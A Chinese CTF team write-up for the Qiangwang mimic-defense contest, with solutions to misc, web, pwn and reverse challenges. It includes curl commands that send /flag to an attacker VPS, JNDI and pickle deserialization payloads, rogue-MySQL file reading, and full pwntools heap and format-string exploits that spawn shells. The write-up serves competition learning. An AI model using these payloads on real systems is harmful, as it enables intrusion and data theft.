本次强网拟态防御国际精英挑战赛我们 SU 取得了线上赛 2nd 🥈的成绩，感谢队里师傅们的辛苦付出！同时我们也在持续招人，只要你拥有一颗热爱 CTF 的心，都可以加入我们！欢迎发送个人简介至：[suers_xctf@126.com](mailto:suers_xctf@126.com)或直接联系书鱼(QQ:381382770)
以下是我们 SU 本次 强网拟态防御国际精英挑战赛 的 writeup 

<!--more-->

# misc
### **weirdphoto**
爆破高宽，进而得到字符串：`TIEWOFTHSAEOUIITNRBCOSHSTSAN`

附上爆破脚本

```python
import binascii
import struct
crcbp = open("1.png", "rb").read()
for i in range(2000):
    for j in range(2000):
        data = crcbp[12:16] + struct.pack('>i', i)+struct.pack('>i', j)+crcbp[24:29]
        crc32 = binascii.crc32(data) & 0xffffffff
        if(crc32 == 0x9E916964):
            print('hex:', hex(i), hex(j))
#hex: 0x58c 0x1f4
```
接着就纯靠猜不断尝试最后确认是栅栏密码（key=4）得到压缩包密码：`THISISTHEANSWERTOOBSFUCATION` 

解压查看文件头很明显这是一个pdf文件，010更改下pdf头

最后通过工具wbs43open解密得到flag：flag{th1s_ls_thE_f1n4l_F14g_y0u_want}

### **bluewhale**
追踪tcp流发现了password：`th1sIsThEpassw0rD`

接着我们进行明文攻击得到压缩包密码：`!2b$3&Ec`

最后lsb隐写得到flag：flag{F1nallY_y0uve_f0unD_1t}


### **bar**
> 参考文章：https://blog.csdn.net/kzhuangood/article/details/72953354
首先分离GIF提取出每一帧，接着我们规定黑为1，白为0，灰为空格，摩斯密码得到提示：`CODE93`
```
1010 111 100 0 11110 00011 
CODE93
```
然后还是按黑1白0来，每九个为一组对照code93编码表得到：`F0C62DB973684DBDA896F9C5F6D962` （后面还有一大块空白的是需要我们去算的效验位

接着我们通过在线网站输入条码号生成条形码，而它这校验位其实是已经自动算出来的，我们只要根据其结构即可得到最后两位

> hint：1、观察得到字符串在code93在线网站生成的条形码停止字符的前两位字符  2、flag内容都是小写英文字母
最后根据hint得知应该是小写的，进而得知最后两位校验码为U和M

```
大写情况：
101000100 101101100 111010010   101011110        1
    2         W      SPACE    * Start/Stop     终止条
小写情况：
101000100 110010110 101001100  101011110         1
    2         U         M    * Start/Stop      终止条
```
整理得到flag：flag{f0c62db973684dbda896f9c5f6d962um}
### mirror
010打开原图拉到尾部也发现了png头，并且发现把图片数据每16一组倒过来也是一张图片，脚本倒置一下
```
data = open('full.png', 'rb').read()
data = data[::-1]
data = [data[i:i+16][::-1] for i in range(0, len(data), 16)]
# print(data[0])
print(len(data))
res = b''.join(data)
f = open('flag.png', 'wb')
f.write(res)
f.close()
```
跟原图看起来一模一样，那么考虑盲水印，但crc校验出错，修一下两张图的crc跑盲水印

倒置一下，修一修图看起来更清晰

然后根据hint替换其中某些字符即可 
 flag{356ffd89983749059ab1e3e968a01d90} 

# web
### zerocalc
访问题目

readFile('./src/index.js')

说flag在root目录，但是名字是随机的，但是其实并没有随机，readFile('/flag')

flag{Hf4ulmUeLzShDRRfHdS4E8UhrlYbyMM6}

### new_hospital
随便点点能够找到feature.php?id=2，发现文件包含


除此之外还发现会给cookie赋值(url+base64解码之后就是读取的文件了)：

但是不管些什么都会被强制加上后缀js，所以就没有太大意义，于是就扫目录，扫出有old目录和flag.php

old目录发现依然是这个站(猜测是该题目考点就是老站迁移未及时删除旧文件带来的问题)，但是发现id没办法修改读取的文件，是根据cookie来获取读取的文件的,并且不会增加后缀，那么就直接修cookie读取/var/www/html/flag.php即可



### ezpickle
简单的pickle反序列化，给了个过滤是必须config模块下的属性且不能有双下划线，config有个后门：
```python
notadmin={"admin":"no"}
def backdoor(cmd):
    if notadmin["admin"]=="yes":
        s=''.join(cmd)
        eval(s)
```
分别获取backdoor和notadmin，给notadmin的admin赋值为yes，pker直接构造就行了，curl外带一下：
利用pker编写exp
```python
backdoor =  GLOBAL("config","backdoor")
notadmin = GLOBAL("config","notadmin")
notadmin["admin"] = "yes"
backdoor("__import__('os').system('curl -F file=@/flag http://vps:port')")
```

### easy-filter
```php
<?php
    ini_set("open_basedir","./");
    if(!isset($_GET['action'])){
        highlight_file(__FILE__);
        die();
    }
    if($_GET['action'] == 'w'){
        @mkdir("./files/");
        $content = $_GET['c'];
        $file = bin2hex(random_bytes(5));
        file_put_contents("./files/".$file,base64_encode($content));
        echo "./files/".$file;
    }elseif($_GET['action'] == 'r'){
        $r = $_GET['r'];
        $file = "./files/".$r;
        include("php://filter/resource=$file");
    }
```
​    有include，所以想到的是执行代码用system来绕basedir读flag。
前面file_put_contents会写入base64，后面的filter用base64，因为会拼接上files:
```
php://filter/resource=./files/file_name
```
但常见的一个filter格式如下：
```
php://filter/read=string.toupper/resource
```
遂想到将resource=./files/file_name这一段当做filter参数的一部分，因此有：
```
read=convert.base64-encode/resource=
```
拼接为
```
php://filter/resource=./files/read=convert.base64-encode/resource=
```
先写
```
c=<?php echo system('cat /flag');?>
```
再包含即可：
```
read=convert.base64-decode/resource=/../../xxxxxx
```
###  jack-shiro
红明谷杯原题:https://www.zhaoj.in/read-6859.html，参考其操作在VPS上搭建工具即可：
运行：java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C 'curl [http://vps:1234](http://81.69.201.65:1234/) -F file=@/flag' 

得到flag


### give-me-your-0day
这题比赛的时候卡了很久，一开始以为是反序列化，但是这里没办法绕过：

因为题目是共享环境，所以安装肯定是没办法安装的，于是另寻思路，想到恶意mysql构造任意文件读取。利用工具：https://github.com/Al1ex/Rogue-MySql-Server/blob/master/rogue_mysql_server.py
在vps上搭建，但是直接连接的时候发现PDO的LOCAL DATA无法使用：

翻看源码发现可以使用mysqli进行连接：

所以抓包更换一下即可

```python
dbAdapter=Mysqli&dbHost=vps&dbPort=port&dbUser=root&dbPassword=rooot&dbDatabase=typecho&dbCharset=utf8&dbPrefix=typecho_&userUrl=http%3A%2F%2F121.36.229.59%3A32768&userName=admin&userPassword=&userMail=webmaster%40yourdomain.com&action=config
```
得到flag：


# pwn
### bornote
2.31 offbynull
```python
#encoding:utf-8
from pwn import *
context.terminal = ['tmux','sp','-h']
context.log_level = 'DEBUG'
# sh = process('./bornote')
sh = remote('121.36.250.162',49154)
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
libc = ELF('./libc-2.31.so')
def menu(choice):
    sh.recvuntil("cmd: ")
    sh.sendline(str(choice))
    
def add(size):
    menu(1)
    sh.recvuntil("Size: ")
    sh.sendline(str(size))
def edit(idx, content):
    menu(3)
    sh.recvuntil("Index: ")
    sh.sendline(str(idx))
    sh.recvuntil("Note: ")
    sh.sendline(content)
def delete(idx):
    menu(2)
    sh.recvuntil("Index: ")
    sh.sendline(str(idx))
def show(idx):
    menu(4)
    sh.recvuntil("Index: ")
    sh.sendline(str(idx))
    sh.recvuntil("Note: ")
    data = sh.recv(6)
    return data
sh.recvuntil("name:")
sh.sendline('aaa')
add(0x418) #0 fake->fd b390
add(0x128) #1
add(0x418) #2
add(0x438) #3 target bd00
add(0x148) #4
add(0x428) # 5 fake->bk c290
add(0x138) # 6
delete(0)
delete(3)
delete(5)
# 
delete(2) #2 & 3 unlink
add(0x438)  # 0 set size 
edit(0,b'a' * 0x418 + p64(0xb01)[:7])
add(0x418)  # 2 c20
add(0x428)  # 3 bk 190
add(0x418)  # 5 fd 290
delete(5)
delete(2)
add(0x418)  # 2 partial overwrite bk -> 9c00
edit(2,b'\x01' * 8)
add(0x418)  # 5 c20
delete(5)
delete(3)
add(0x5f8)  # 3 chunk into largebin
add(0x428)  # 5 partial overwrite fd
edit(5,b'')
add(0x418)  # 7 c20
## 触发offbynull 向前合并
# gdb.attach(sh,'b * $rebase(0x1781)')
add(0x108) #8 gap
edit(8,p64(0) + p64(0x111))
edit(6, b'\x01' * 0x138) #offbynull
edit(6, b'\x01' * 0x130 + p64(0xb00)) #prev_size
delete(3)
##
edit(1,'/bin/sh\x00')
add(0x10) #3
# show(7)
libc_base = u64(show(7).ljust(8,b'\x00')) - 0x1EBBE0
log.success("libc_base = " + hex(libc_base))
fake_fast = 0x1EBB3D + libc_base
# gdb.attach(sh,'b * $rebase(0x1E16)')
add(0x128) #9
delete(1) 
delete(9)
edit(7,p64(libc_base + libc.symbols["__free_hook"]))
add(0x128)
add(0x128) #9
edit(0,'/bin/sh\x00')
edit(9,p64(libc_base + libc.symbols["system"]))
sh.sendline('2')
sh.sendline('0')
sh.interactive()
```
### pwnpwn
格式化字符串  栈溢出
```python
# _*_ coding:utf-8 _*_
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
context.terminal=['/usr/bin/tmux', 'splitw', '-h']
prog = './pwnpwn'
s       = lambda data               :p.send(data)     
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data) 
r       = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
it      = lambda                    :p.interactive()
uu32    = lambda data   :u32(data.ljust(4, '\0'))
uu64    = lambda data   :u64(data.ljust(8, '\0'))
bp      = lambda bkp                :pdbg.bp(bkp)
li      = lambda str1,data1         :log.success(str1+'========>'+hex(data1))
#p = process(prog)#env={"LD_PRELOAD":"./libc.so.6"})
libc = ELF("./libc-2.23.so")
p = remote("124.71.156.217",49153)
def dbg():
    gdb.attach(p)
def debug(addr,PIE=True): 
    debug_str = ""
    if PIE:
        text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(p.pid)).readlines()[1], 16) 
        for i in addr:
            debug_str+='b *{}\n'.format(hex(text_base+i))
        gdb.attach(p,debug_str) 
    else:
        for i in addr:
            debug_str+='b *{}\n'.format(hex(i))
        gdb.attach(p,debug_str) 
sl('1')
ru('0x')
data = int(r(12),16)
print hex(data)
exe = data - 0x9b9
sl('2')
ru("hello\n")
#debug([0xa07])
sl('%3$p+%27$p')
addr=int(ru("+",drop=True),16)-(0x7f3c9335d360-0x7f3c93266000)
canary=int(ru("\n",drop=True),16)
print hex(addr)
print hex(canary)
#--------------------------
libc = ELF("./libc-2.23.so")
pop_rdi=0x21112+addr
sh=libc.search("/bin/sh").next()+addr
sys=addr+libc.sym['system']
pay='a'*0x68+p64(canary)+'attack\x00\x00'+p64(pop_rdi)+p64(sh)+p64(sys)
sl(pay)
# dbg()
it()
```
### bitflip
off-by-one
```python
# _*_ coding:utf-8 _*_
from pwn import *
context.log_level = 'debug'
context.terminal=['tmux', 'splitw', '-h']
prog = './bitflip'
#elf = ELF(prog)#nc 121.36.194.21 49155
#p = process(prog)#,env={"LD_PRELOAD":"./libc-2.27.so"})
libc = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
p = remote("124.71.130.185", 49155)#nc 124.71.130.185 49155
def debug(addr,PIE=True): 
    debug_str = ""
    if PIE:
        text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(p.pid)).readlines()[1], 16) 
        for i in addr:
            debug_str+='b *{}\n'.format(hex(text_base+i))
        gdb.attach(p,debug_str) 
    else:
        for i in addr:
            debug_str+='b *{}\n'.format(hex(i))
        gdb.attach(p,debug_str) 
def dbg():
    gdb.attach(p)
#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))        #in case that data is an int
sa      = lambda delim,data         :p.sendafter(str(delim), str(data)) 
sl      = lambda data               :p.sendline(str(data)) 
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data)) 
r       = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
it      = lambda                    :p.interactive()
uu32    = lambda data   :u32(data.ljust(4, '\0'))
uu64    = lambda data   :u64(data.ljust(8, '\0'))
bp      = lambda bkp                :pdbg.bp(bkp)
li      = lambda str1,data1         :log.success(str1+'========>'+hex(data1))
    
def dbgc(addr):
    gdb.attach(p,"b*" + hex(addr) +"\n c")
def lg(s,addr):
    print('\033[1;31;40m%20s-->0x%x\033[0m'%(s,addr))
sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
def choice(idx):
    sla("Your choice: ",str(idx))
def add(idx,sz):
    choice(1)
    sla("Index: ",idx)
    sla("Size: ",sz)
    # sa("content?",cno)
def delete(idx):
    choice(4)
    sla("Index: ",idx)
def show(idx):
    choice(3)
    sla("Index: ",idx)
def edit(idx,con):
    choice(2)
    sla("Index: ",idx)
    # sla("size?",sz)
    sa("Content: ",con)
def exp():
    #debug([0x7B9])
    add(0,0x48)
    add(1,0x20)
    add(2,0x30)
    add(3,0x30)
    edit(0,0x48*'a'+p8(0x51))
    delete(1)
    delete(3)
    delete(2)
    add(1,0x48)
    edit(1,0x30*'a'+'\n')
    show(1)
    ru('a'*0x30)
    data = uu64(r(6)) 
    heap = data - 0x555711a7c30a + 0x555711a7c000
    lg('heap',heap)
    #-----------------------------------
    edit(1,'b'*0x20+p64(0)+p64(0x41)+p64(data+22)+'\n')
    add(4,0x28)
    add(5,0x40)
    add(6,0x50)
    for i in range(13):
        add(i+7,0x50)
    add(31,0x28)
    add(30,0x20)
    add(29,0x30)
    add(28,0x30)
    add(27,0x30)
    delete(29)
    delete(28)
    delete(27)  
    edit(6,p64(0)+p64(0x551-0x80)+'\n')
    
    edit(31,0x28*'c'+p8(0x61))
    delete(30)
    add(30,0x50)
    edit(30,0x28*'d'+p64(0x41)+p64(heap+0x3f0)+'\n')
    add(27,0x30)
    add(28,0x30)
    delete(28)
    edit(6,0xf*'x'+'\n')
    show(6)
    ru('x\n')
    data = uu64(r(6))
    addr = data - 0x7ff81693aca0 + 0x7ff81654f000
    lg('addr',addr)
    sys = addr + libc.sym['system']
    fh = addr + libc.sym['__free_hook']
    edit(6,p64(0)+p64(0x4d1)+p64(data)*2+p64(fh)+'\n')
    #-----------------------------------------
    add(21,0x10)
    delete(7)
    add(22,0x40)
    edit(22,'x'*0x20+p64(0)+p64(0x61)+p64(fh)+'\n')
    add(23,0x50)
    add(24,0x50)
    edit(24,p64(sys)+'\n')
    edit(0,'/bin/sh\x00\n')
    delete(0)
    # dbg()
    it()
if __name__ == '__main__':
    exp()
```
### oldschool
off-by-one
```python
# _*_ coding:utf-8 _*_
from pwn import *
context.log_level = 'debug'
context.terminal=['tmux', 'splitw', '-h']
prog = './old_school'
#elf = ELF(prog)#nc 121.36.194.21 49155
#p = process(prog)#,env={"LD_PRELOAD":"./libc-2.27.so"})
libc = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
p = remote("121.36.194.21", 49155)#nc 123.60.63.90 6888
def debug(addr,PIE=True): 
    debug_str = ""
    if PIE:
        text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(p.pid)).readlines()[1], 16) 
        for i in addr:
            debug_str+='b *{}\n'.format(hex(text_base+i))
        gdb.attach(p,debug_str) 
    else:
        for i in addr:
            debug_str+='b *{}\n'.format(hex(i))
        gdb.attach(p,debug_str) 
def dbg():
    gdb.attach(p)
#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))        #in case that data is an int
sa      = lambda delim,data         :p.sendafter(str(delim), str(data)) 
sl      = lambda data               :p.sendline(str(data)) 
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data)) 
r       = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
it      = lambda                    :p.interactive()
uu32    = lambda data   :u32(data.ljust(4, '\0'))
uu64    = lambda data   :u64(data.ljust(8, '\0'))
bp      = lambda bkp                :pdbg.bp(bkp)
li      = lambda str1,data1         :log.success(str1+'========>'+hex(data1))
    
def dbgc(addr):
    gdb.attach(p,"b*" + hex(addr) +"\n c")
def lg(s,addr):
    print('\033[1;31;40m%20s-->0x%x\033[0m'%(s,addr))
sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------
def choice(idx):
    sla("Your choice: ",str(idx))
def add(idx,sz):
    choice(1)
    sla("Index: ",idx)
    sla("Size: ",sz)
    # sa("content?",cno)
def delete(idx):
    choice(4)
    sla("Index: ",idx)
def show(idx):
    choice(3)
    sla("Index: ",idx)
def edit(idx,con):
    choice(2)
    sla("Index: ",idx)
    # sla("size?",sz)
    sa("Content: ",con)
def exp():
    #debug([0x7B9])
    add(0,0x38)
    add(1,0x10)
    add(2,0x80)
    add(3,0x80)
    add(4,0x28)
    add(5,0x20)
    add(6,0x50)
    # add()
    for i in range(7):
        add(i+10,0x80)
    for i in range(7):
        delete(i+10)
    # delete(0)
    pay = 'a'*0x38 + p8(0x81)
    edit(0,pay)
    delete(1)
    add(1,0x70)
    delete(2)
    edit(1,0x20*'b'+'\n')
    show(1)
    ru('b'*0x20)
    data = uu64(r(6))
    lg('data',data)
    addr = data - 0x00007ff4965d5c0a + 0x7ff4961ea000
    lg('addr',addr)
    sys = addr + libc.sym['system']
    fh = addr + libc.sym['__free_hook']
    #edit(1,0x10*'d'+p64(0)+p64(0x91)+p64(data)*2+'\n')
#-----------------------------------------------------
    
    edit(4,0x28*'c'+p8(0x71))
    delete(5)
    delete(6)
    add(5,0x60)
    edit(5,0x20*'x'+p64(0)+p64(0x61)+p64(fh)+'\n')
    add(6,0x50)
    add(0x1f,0x50)
    edit(6,'/bin/sh\x00'+'\n')
    edit(0x1f,p64(sys)+'\n')
    delete(6)
    # dbg() 
    it()
if __name__ == '__main__':
    exp()
```
### old-school-revenge
2.27 off by null
```python
from pwn import*
r=remote("123.60.63.39",49155)
#r=process('./main')
context.log_level='debug'
libc=ELF('./libc-2.27.so')
def new(idx,size):
        r.recvuntil(": ")
        r.sendline("1")
        r.recvuntil(": ")
        r.sendline(str(idx))
        r.recvuntil(": ")
        r.sendline(str(size))
def edit(idx,content):
        r.recvuntil(": ")
        r.sendline("2")
        r.recvuntil(": ")
        r.sendline(str(idx))
        r.recvuntil(": ")
        r.send(content)
def show(idx):
        r.recvuntil(": ")
        r.sendline("3")
        r.recvuntil(": ")
        r.sendline(str(idx))
def delete(idx):
        r.recvuntil(": ")
        r.sendline("4")
        r.recvuntil(": ")
        r.sendline(str(idx))
        
for i in range(11): new(i,0xB8)
for i in range(4,11): delete(i)
delete(0)
delete(1)
delete(2)
for i in range(4,11): new(i,0xB8)
new(0,0xB8)
edit(0,'\x00'*0xb8)
new(1,0xB8)
new(2,0x38)
for i in range(4,11): delete(i)
delete(1)
delete(3)
for i in range(4,11): new(i,0xB8)
new(1,0xB8)
show(2)
libc_base=u64(r.recvuntil('\x7f')[-6:]+p16(0))-libc.sym['__malloc_hook']-0x70
success("libc_base: "+hex(libc_base))
new(12,0x38)
delete(2)
edit(12,p64(libc_base+libc.sym['__free_hook'])+'\n')
new(2,0x38)
new(13,0x38)
edit(13,p64(libc_base+libc.sym['system'])+'\n')
edit(0,'/bin/sh\x00\n')
delete(0)
#gdb.attach(r)
r.interactive()
```
### random-heap
Uaf
```python
from pwn import*
r=remote("124.71.140.198",49155)
#r=process('./main')
context.log_level='debug'
libc=ELF('./libc-2.27.so')
def new(idx,size):
        r.recvuntil(': ')
        r.sendline("1")
        r.recvuntil(': ')
        r.sendline(str(idx))
        r.recvuntil(': ')
        r.sendline(str(size))
def edit(idx,content):
        r.recvuntil(': ')
        r.sendline("2")
        r.recvuntil(': ')
        r.sendline(str(idx))
        r.recvuntil(': ')
        r.send(content)
def show(idx):
        r.recvuntil(': ')
        r.sendline("3")
        r.recvuntil(': ')
        r.sendline(str(idx))
def delete(idx):
        r.recvuntil(': ')
        r.sendline("4")
        r.recvuntil(': ')
        r.sendline(str(idx))
new(0,0x100)
new(1,0x18)
delete(0)
edit(0,p64(0)*2)
delete(0)
edit(0,'a'*0x8)
show(0)
heap=u64(r.recvline()[:-1][-6:]+p16(0))-0x10
success("heap: "+hex(heap))
for i in range(6): 
        edit(0,p64(0)*2)
        delete(0)
#new(2,0x100)
r.recvuntil(': ')
r.sendline("0"*0x500)
show(0)
libc_base=u64(r.recvuntil('\x7f')[-6:]+p16(0))-libc.sym['__malloc_hook']-0x70
libc_base=libc_base//0x1000*0x1000
success("libc_base: "+hex(libc_base))
delete(1)
edit(1,p64(libc_base+libc.sym["__free_hook"]))
for i in range(0x20):
        new(2,0x18)
        edit(2,p64(libc_base+libc.sym['system']))
new(3,0x18)
edit(3,'/bin/sh\x00')
#gdb.attach(r)
delete(3)
r.interactive()
```
### oldecho
格式化字符串改stdout的fileno为2就可以正常输出
```python
from pwn import*
r=remote("123.60.32.152",49154)
#r=process('./main')
context.log_level='debug'
libc=ELF("./libc-2.23.so")
r.recvuntil("Gift: ")
stack=int(r.recvline(),16)
success("stack: "+hex(stack))
r.recvline()
r.sendline("%"+str(stack%0x100-0x20)+"c%6$hhn")
r.sendline("%"+str(0xA90)+"c%10$hn")
stack=stack-0x110
success("stack: "+hex(stack))
r.sendline("%"+str((stack+0xa0)%0x100)+"c%14$hhn")
r.sendline("%"+str(0x90)+"c%40$hhn")
r.sendline("%"+str(0x2)+"c%29$hhn")
r.recv(2)
r.sendline("%13$p;%9$p;")
libc_base=int(r.recvuntil(';',drop=True),16)-libc.sym["__libc_start_main"]-240
pie=int(r.recvuntil(';',drop=True),16)
pop_rax=libc_base+0x3a738
pop_rdi=libc_base+0x21112
pop_rsi=libc_base+0x202f8
pop_rdx=libc_base+0x1b92
syscall=libc_base+0xbc3f5
payload=''
payload+=p64(pop_rax)+p64(2)+p64(pop_rdi)+p64(pie+0xb0+0x20)+p64(pop_rsi)+p64(0)+p64(pop_rdx)+p64(0)+p64(syscall)
payload+=p64(pop_rax)+p64(0)+p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(libc_base+libc.sym['environ'])+p64(pop_rdx)+p64(0x30)+p64(syscall)
payload+=p64(pop_rax)+p64(1)+p64(pop_rdi)+p64(2)+p64(syscall)
payload+='flag'
r.sendline("%"+str((stack-0x8)%0x100)+"c%6$hhn")
r.recv()
r.sendline("%"+str(0xedd)+"c%10$hn")
r.recv()
r.sendline("%"+str((stack-0x10)%0x100)+"c%6$hhn")
r.recv()
#gdb.attach(r,'b printf')
r.sendline(("%"+str(0x3f)+"c%10$hhn").ljust(0x18,'\x00')+payload)
r.interactive()
```
### sonic
溢出
```python
# _*_ coding:utf-8 _*_
from pwn import *
context.log_level = 'debug'
context.terminal=['tmux', 'splitw', '-h']
prog = './sonic'
#elf = ELF(prog)
#p = process(prog)#,env={"LD_PRELOAD":"./libc-2.27.so"})
#libc = ELF("/usr/lib/x86_64-linux-gnu/libc-2.31.so")
p = remote("123.60.63.90", 6889)#nc 123.60.63.90 6888
def debug(addr,PIE=True): 
    debug_str = ""
    if PIE:
        text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(p.pid)).readlines()[1], 16) 
        for i in addr:
            debug_str+='b *{}\n'.format(hex(text_base+i))
        gdb.attach(p,debug_str) 
    else:
        for i in addr:
            debug_str+='b *{}\n'.format(hex(i))
        gdb.attach(p,debug_str) 
def dbg():
    gdb.attach(p)
#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))        #in case that data is an int
sa      = lambda delim,data         :p.sendafter(str(delim), str(data)) 
sl      = lambda data               :p.sendline(str(data)) 
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data)) 
r       = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
it      = lambda                    :p.interactive()
uu32    = lambda data   :u32(data.ljust(4, '\0'))
uu64    = lambda data   :u64(data.ljust(8, '\0'))
bp      = lambda bkp                :pdbg.bp(bkp)
li      = lambda str1,data1         :log.success(str1+'========>'+hex(data1))
    
def dbgc(addr):
    gdb.attach(p,"b*" + hex(addr) +"\n c")
def lg(s,addr):
    print('\033[1;31;40m%20s-->0x%x\033[0m'%(s,addr))
sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
def exp():
    #debug([0x7B9])
    ru("ss=0x")
    data = int(r(12),16)
    lg('data',data)
    
    pop_rdi = data - 0x7CF + 0x00000000000008c3
    pop_rsi = data - 0x7cf + 0x00000000000008c1
    execve = data - 0x7cf + 0x610
    arg = data - 0x7cf + 0x201040
    pay = '/bin/sh\x00'*5 +  p64(pop_rdi) + p64(arg) + p64(pop_rsi)+p64(0)*2+ p64(execve)
    sl(pay)    
    it()
if __name__ == '__main__':
    exp()
```
# rev
## marmgic
armv7 32逆向
000103E8主要逻辑，接受的字符串为hex的形式（例如420a...）
疑似为虚拟机题？

将读入的字符串转换成数字，然后在这些switch里面使用对应的函数，每个函数做的事情本质为各个数组的轮转存储（例如第一个函数会处理进行a[0],b[0],c[0],d[0] -> b[0],c[0],d[0],a[0]，然后数组自增3，再次交换）
总共有6个数组，每个数组有9个数字
本质魔方题，可以看这个地方

例如0x10的操作实际上相当于魔方这个操作

题目最终check的时候，分成了两部检查面是否为对应的面

大约相当于计算这两个值（如图）

0 2 4 6 8 为斜对角（蓝色）
1 3 4 5 7 为十字边（黄色）
4被用了两次（绿色)
用此算法确定唯一的面。根据上面的式子我们可以得知以下条件

- 当前有6个数组（54个数字），分别象征着一个面
- 每次输入的十六进制是一个转动操作
由于此时分别计算十字边和斜对角，于是此时可以退化成一个组合问题，也就是 **从54个数字中取出5个，让其答案等于对应值**，于是可以写出爆破代码，得到每个面的最终状态。
之后在解题过程中发现，最后的check逻辑似乎导致整个题目不需要【真正求出转动思路】：

最后会将最终魔方的面和一个指定的另一个类似魔方的数组进行相乘相加，最终会得到目标字符串。虽然上一步我们【只能求出每个面所需的数字，但是无法求出顺序】，而这边的最终计算与顺序相关，但是【由于可以分别考虑十字，斜对角，中间方块】三种情况，此时爆破变成可能。
最终可以爆破得到flag
## fastjs
依照这个[https://bbs.pediy.com/thread-258985.htm](https://bbs.pediy.com/thread-258985.htm) 链接可以知道 跟之前长安杯和看雪KCTF题目差不多
先用脚本恢复一下符号
```
0x02, 0x3A, 0x10, 0x6C, 0x6F, 0x6E, 0x67, 0x32, 0x73, 0x74, 
0x72, 0x10, 0x73, 0x74, 0x72, 0x32, 0x6C, 0x6F, 0x6E, 0x67, 
0x10, 0x73, 0x64, 0x66, 0x73, 0x66, 0x73, 0x64, 0x66, 0x0E, 
0x73, 0x74, 0x72, 0x32, 0x48, 0x65, 0x78, 0x0E, 0x68, 0x65, 
0x78, 0x32, 0x73, 0x74, 0x72, 0x0C, 0x78, 0x78, 0x78, 0x66, 
0x73, 0x73, 0x08, 0x6D, 0x61, 0x69, 0x6E, 0x08, 0x61, 0x72, 
0x67, 0x73, 0x82, 0x01, 0x41, 0x42, 0x43, 0x44, 0x45, 0x46, 
0x47, 0x48, 0x49, 0x4A, 0x4B, 0x4C, 0x4D, 0x4E, 0x4F, 0x50, 
0x51, 0x52, 0x53, 0x54, 0x55, 0x56, 0x57, 0x58, 0x59, 0x5A, 
0x61, 0x62, 0x63, 0x64, 0x65, 0x66, 0x67, 0x68, 0x69, 0x6A, 
0x6B, 0x6C, 0x6D, 0x6E, 0x6F, 0x70, 0x71, 0x72, 0x73, 0x74, 
0x75, 0x76, 0x77, 0x78, 0x79, 0x7A, 0x30, 0x31, 0x32, 0x33, 
0x34, 0x35, 0x36, 0x37, 0x38, 0x39, 0x2B, 0x2F, 0x3D, 0x0E, 
0x5F, 0x6B, 0x65, 0x79, 0x53, 0x74, 0x72, 0x0A, 0x64, 0x66, 
0x73, 0x66, 0x73, 0x14, 0x73, 0x63, 0x72, 0x69, 0x70, 0x74, 
0x41, 0x72, 0x67, 0x73, 0x0A, 0x73, 0x68, 0x69, 0x66, 0x74, 
0x0A, 0x65, 0x72, 0x72, 0x6F, 0x72, 0x20, 0x2E, 0x2F, 0x74, 
0x65, 0x73, 0x74, 0x5F, 0x65, 0x6E, 0x63, 0x6F, 0x64, 0x65, 
0x2E, 0x6A, 0x73, 0x02, 0x76, 0x02, 0x77, 0x04, 0x76, 0x6C, 
0x04, 0x73, 0x6C, 0x02, 0x69, 0x18, 0x66, 0x72, 0x6F, 0x6D, 
0x43, 0x68, 0x61, 0x72, 0x43, 0x6F, 0x64, 0x65, 0x12, 0x73, 
0x75, 0x62, 0x73, 0x74, 0x72, 0x69, 0x6E, 0x67, 0x02, 0x73, 
0x06, 0x6C, 0x65, 0x6E, 0x14, 0x63, 0x68, 0x61, 0x72, 0x43, 
0x6F, 0x64, 0x65, 0x41, 0x74, 0x06, 0x73, 0x74, 0x72, 0x06, 
0x6B, 0x65, 0x79, 0x02, 0x6B, 0x02, 0x6E, 0x02, 0x7A, 0x02, 
0x79, 0x0A, 0x64, 0x65, 0x6C, 0x74, 0x61, 0x04, 0x6D, 0x78, 
